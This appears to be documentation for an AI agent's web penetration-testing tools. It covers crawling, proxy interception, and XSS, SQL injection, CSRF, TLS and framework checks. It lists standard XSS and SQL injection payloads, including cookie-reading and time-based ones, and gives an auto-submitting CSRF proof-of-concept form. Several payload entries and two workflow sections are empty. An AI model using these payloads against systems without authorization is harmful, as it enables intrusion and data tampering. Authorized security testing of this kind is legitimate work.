


# Web Application Security Testing

OpenClaw provides comprehensive web application security testing tools for penetration testers and security professionals. These tools enable automated discovery, vulnerability testing, and security assessment of web applications through browser automation, HTTP proxy integration, and specialized vulnerability testing.

## Overview

The web application security testing tools cover:

- **Browser-based risk discovery**: Automated application mapping and attack surface identification
- **HTTP proxy integration**: Request/response interception and modification
- **XSS testing**: Cross-Site Scripting vulnerability detection
- **SQL injection testing**: Database injection vulnerability assessment
- **CSRF testing**: Cross-Site Request Forgery protection validation
- **HTTPS configuration**: SSL/TLS and certificate security validation
- **Framework disclosure**: Web framework detection and version identification

## Tools

### Browser-Based Risk Discovery

**Tool:** `pentest_web_discover`

Discover web application risks via browser automation. Navigate the application, discover endpoints, forms, input fields, authentication mechanisms, and map the attack surface.

**Parameters:**

- `target` (required): Target URL or hostname
- `depth` (optional): Crawling depth (default: 3)
- `scope` (optional): Array of scope patterns (e.g., ["example.com", "/api/*"])
- `output` (optional): Output file path for discovery report

**Example:**

```json
{
  "target": "https://example.com",
  "depth": 5,
  "scope": ["example.com", "/api/*"],
  "output": "discovery-report.json"
}
```

**Discovery Areas:**

- Endpoints and routes
- Forms and input fields
- Authentication mechanisms
- API endpoints
- Session management
- Sensitive files/directories
- Configuration files
- Attack surface mapping

### HTTP Proxy Integration

**Tool:** `pentest_web_proxy`

HTTP proxy integration for web security testing. Intercept HTTP/HTTPS requests and responses, modify requests for testing (headers, parameters, body), record traffic, and replay modified requests.

**Parameters:**

- `action` (required): One of `intercept`, `modify`, `record`, `replay`
- `target` (optional): Target URL or hostname
- `request` (optional): Request to modify or replay
- `modifications` (optional): Key-value pairs for request modifications

**Actions:**

**Intercept:**

```json
{
  "action": "intercept",
  "target": "https://example.com"
}
```

**Modify:**

```json
{
  "action": "modify",
  "target": "https://example.com/api/endpoint",
  "modifications": {
    "header": "X-Custom-Header: test",
    "parameter": "id=1' OR '1'='1"
  }
}
```

**Record:**

```json
{
  "action": "record",
  "target": "https://example.com"
}
```

**Replay:**

```json
{
  "action": "replay",
  "request": "GET /api/endpoint HTTP/1.1",
  "modifications": {
    "header": "X-Custom-Header: modified"
  }
}
```

**Integration:**

- Configure browser to use proxy server (Burp Suite, OWASP ZAP, mitmproxy, Charles Proxy)
- Intercept requests and responses
- Modify headers, parameters, POST body, cookies, User-Agent
- Record traffic in HAR format
- Replay modified requests

### XSS Testing

**Tool:** `pentest_web_xss`

XSS (Cross-Site Scripting) testing with payload generation and detection. Generate XSS payloads (reflected, stored, DOM-based), test input fields, URL parameters, headers, detect vulnerabilities through browser automation, and validate exploitation.

**Parameters:**

- `target` (required): Target URL
- `input_field` (optional): Specific input field to test
- `payload_type` (optional): One of `reflected`, `stored`, `dom` (default: `reflected`)
- `test_all_fields` (optional): Test all input fields (default: false)

**Example:**

```json
{
  "target": "https://example.com/search",
  "input_field": "q",
  "payload_type": "reflected",
  "test_all_fields": false
}
```

**Payload Types:**

**Reflected XSS:**

- `<script>alert(1)</script>`
- ``
- `<svg onload=alert(1)>`
- JavaScript event handlers
- Encoded payloads (HTML entities, URL encoding)

**Stored XSS:**

- `<script>alert(document.cookie)</script>`
- ``
- Payloads designed to persist in application storage

**DOM-based XSS:**

- ``
- Hash-based payloads (`#`)
- Query parameter-based payloads

**Detection Methods:**

- Browser automation to detect alert execution
- Response analysis for reflected payloads
- Stored content analysis for stored XSS
- DOM analysis for DOM-based XSS
- Content Security Policy (CSP) checking

### SQL Injection Testing

**Tool:** `pentest_web_sqli`

SQL injection testing with payload generation. Test for SQL injection vulnerabilities, detect database errors and time-based blind SQLi, identify database type and version.

**Parameters:**

- `target` (required): Target URL
- `parameter` (optional): Specific parameter to test
- `db_type` (optional): Database type (MySQL, PostgreSQL, MSSQL, Oracle)
- `test_type` (optional): One of `error_based`, `time_based`, `union` (default: `error_based`)

**Example:**

```json
{
  "target": "https://example.com/products",
  "parameter": "id",
  "db_type": "MySQL",
  "test_type": "error_based"
}
```

**Payload Types:**

**Generic:**

- `' OR '1'='1`
- `' OR '1'='1'--`
- `' UNION SELECT NULL--`

**MySQL:**

- `' OR 1=1--`
- `1' AND SLEEP(5)--`
- `1' UNION SELECT @@version--`

**PostgreSQL:**

- `' OR 1=1--`
- `1' AND pg_sleep(5)--`
- `1' UNION SELECT version()--`

**MSSQL:**

- `' OR 1=1--`
- `1'; WAITFOR DELAY '00:00:05'--`
- `1' UNION SELECT @@version--`

**Oracle:**

- `' OR 1=1--`
- `1' UNION SELECT banner FROM v$version WHERE rownum=1--`

**Time-based:**

- `1' AND SLEEP(5)--`
- `1' AND pg_sleep(5)--`
- `1'; WAITFOR DELAY '00:00:05'--`

**Detection Methods:**

- Error message analysis
- Response time analysis (time-based)
- Response content analysis (union-based)
- Boolean-based blind SQLi
- Database fingerprinting

### CSRF Testing

**Tool:** `pentest_web_csrf`

CSRF (Cross-Site Request Forgery) testing. Detect CSRF protection mechanisms, test for vulnerabilities, generate CSRF proof-of-concept exploits, validate CSRF token implementation.

**Parameters:**

- `target` (required): Target URL
- `endpoint` (optional): Specific endpoint to test
- `method` (optional): HTTP method (default: POST)
- `validate_tokens` (optional): Validate CSRF tokens (default: true)

**Example:**

```json
{
  "target": "https://example.com/api/user/delete",
  "endpoint": "/api/user/delete",
  "method": "POST",
  "validate_tokens": true
}
```

**Protection Checks:**

- CSRF token presence
- Token validation
- SameSite cookie attribute
- Custom headers (X-Requested-With, etc.)
- Origin/Referer header validation

**PoC Generation:**

- HTML form-based PoC
- JavaScript-based PoC
- Image tag-based PoC
- AJAX-based PoC

**Example PoC (HTML form):**

```html
<form action="https://example.com/api/user/delete" method="POST">
  <input type="hidden" name="action" value="delete">
  <input type="hidden" name="id" value="1">
  <input type="submit" value="Click me">
</form>
<script>document.forms[0].submit();</script>
```

### HTTPS Configuration Testing

**Tool:** `pentest_web_https`

HTTPS configuration testing. Validate SSL/TLS configuration, check certificate validity and expiration, test for weak cipher suites, validate HSTS implementation, check for mixed content issues.

**Parameters:**

- `target` (required): Target URL or hostname
- `check_certificate` (optional): Check certificate (default: true)
- `check_ciphers` (optional): Check cipher suites (default: true)
- `check_hsts` (optional): Check HSTS (default: true)

**Example:**

```json
{
  "target": "https://example.com",
  "check_certificate": true,
  "check_ciphers": true,
  "check_hsts": true
}
```

**Certificate Checks:**

- Certificate validity
- Certificate expiration
- Certificate chain
- Self-signed certificate detection
- Certificate trust

**Cipher Suite Checks:**

- Weak cipher suites (SSLv2, SSLv3, TLS 1.0, TLS 1.1, RC4, DES, MD5, SHA1)
- SSL/TLS version support
- Perfect Forward Secrecy (PFS)
- Cipher suite strength

**HSTS Checks:**

- HSTS header presence (`Strict-Transport-Security`)
- HSTS max-age value
- `includeSubDomains` directive
- `preload` directive

### Framework Disclosure Detection

**Tool:** `pentest_web_framework`

Framework disclosure detection. Detect web application frameworks (React, Angular, Django, Rails, etc.), identify framework versions, detect exposed framework metadata, check for framework-specific vulnerabilities.

**Parameters:**

- `target` (required): Target URL
- `detect_version` (optional): Detect framework versions (default: true)
- `check_vulnerabilities` (optional): Check for vulnerabilities (default: true)

**Example:**

```json
{
  "target": "https://example.com",
  "detect_version": true,
  "check_vulnerabilities": true
}
```

**Detection Methods:**

- HTTP header analysis (X-Powered-By, Server, etc.)
- HTML source code analysis
- JavaScript file analysis
- Cookie analysis
- URL pattern analysis
- Error message analysis
- File extension analysis

**Supported Frameworks:**

- React
- Angular
- Vue.js
- Django
- Rails
- Laravel
- Express
- ASP.NET
- PHP

**Framework-Specific Vulnerabilities:**

**React:**

- XSS in JSX
- Server-side rendering vulnerabilities
- Component injection

**Angular:**

- XSS in templates
- Expression injection
- Client-side template injection

**Django:**

- CSRF bypass
- Template injection
- SQL injection in ORM

**Rails:**

- Mass assignment
- SQL injection
- XSS in views

**Laravel:**

- Mass assignment
- SQL injection
- XSS

**Express:**

- NoSQL injection
- XSS
- Path traversal

**ASP.NET:**

- ViewState deserialization
- XSS
- SQL injection

## Configuration

Configure web security testing in `~/.openclaw/openclaw.json`:

```json
{
  "security": {
    "webSecurity": {
      "enabled": true,
      "browserTesting": {
        "enabled": true,
        "headless": false
      },
      "proxyTesting": {
        "enabled": true,
        "proxyPort": 8080
      },
      "xssTesting": {
        "enabled": true,
        "payloads": ["<script>alert(1)</script>", ""]
      },
      "sqliTesting": {
        "enabled": true,
        "payloads": ["' OR '1'='1", "' UNION SELECT NULL--"]
      }
    }
  }
}
```

## Workflows

### Complete Web Application Security Assessment

1. **Discovery**: Use `pentest_web_discover` to map the application structure
2. **Framework Detection**: Use `pentest_web_framework` to identify frameworks and versions
3. **HTTPS Validation**: Use `pentest_web_https` to check SSL/TLS configuration
4. **Proxy Testing**: Use `pentest_web_proxy` to intercept and modify requests
5. **XSS Testing**: Use `pentest_web_xss` to test for XSS vulnerabilities
6. **SQL Injection Testing**: Use `pentest_web_sqli` to test for SQL injection vulnerabilities
7. **CSRF Testing**: Use `pentest_web_csrf` to validate CSRF protection

### Browser-Based Testing Workflow



### Proxy-Based Testing Workflow



## Security Considerations

- **Authorization**: Ensure testing tools only run against authorized targets
- **Legal Compliance**: Obtain proper authorization before testing
- **Rate Limiting**: Respect rate limits and implement delays between requests
- **Robots.txt**: Respect robots.txt directives
- **Logging**: All security testing activities are logged
- **Ethical Use**: Use tools responsibly and ethically

## Integration

### Browser Tool Integration

The web security tools integrate with OpenClaw's browser tool for automated navigation and interaction:

```json
{
  "tool": "browser",
  "action": "open",
  "url": "https://example.com"
}
```

### Web Fetch Integration

Leverage `web_fetch` for HTTP requests:

```json
{
  "tool": "web_fetch",
  "url": "https://example.com/api/endpoint",
  "method": "POST",
  "body": "{\"test\": \"payload\"}"
}
```

### Pentest Workspace

All test results are stored in `~/.openclaw/security/pentest/`:

- Discovery reports: `discovery-report.json`
- XSS test results: `xss-report.json`
- SQL injection results: `sqli-report.json`
- CSRF test results: `csrf-report.json`
- HTTPS validation: `https-report.json`
- Framework disclosure: `framework-report.json`

## Best Practices

1. **Start with Discovery**: Always begin with application discovery to understand the attack surface
2. **Framework Detection**: Identify frameworks early to focus testing efforts
3. **HTTPS Validation**: Check SSL/TLS configuration before other tests
4. **Systematic Testing**: Test all input fields and parameters systematically
5. **Payload Variation**: Use multiple payload variations for each vulnerability type
6. **Documentation**: Document all findings and generate comprehensive reports
7. **Remediation**: Provide clear remediation recommendations

## Examples

### Example: XSS Testing Workflow

```json
{
  "tool": "pentest_web_xss",
  "target": "https://example.com/search",
  "input_field": "q",
  "payload_type": "reflected",
  "test_all_fields": false
}
```

### Example: SQL Injection Testing

```json
{
  "tool": "pentest_web_sqli",
  "target": "https://example.com/products",
  "parameter": "id",
  "db_type": "MySQL",
  "test_type": "error_based"
}
```

### Example: Complete Assessment

```json
{
  "tool": "pentest_web_discover",
  "target": "https://example.com",
  "depth": 5,
  "output": "discovery-report.json"
}
```

## Related Documentation

- [Penetration Testing](./pen-testing.md)
- [Red Team Operations](./red-team.md)
- [Security Automation](./automation.md)
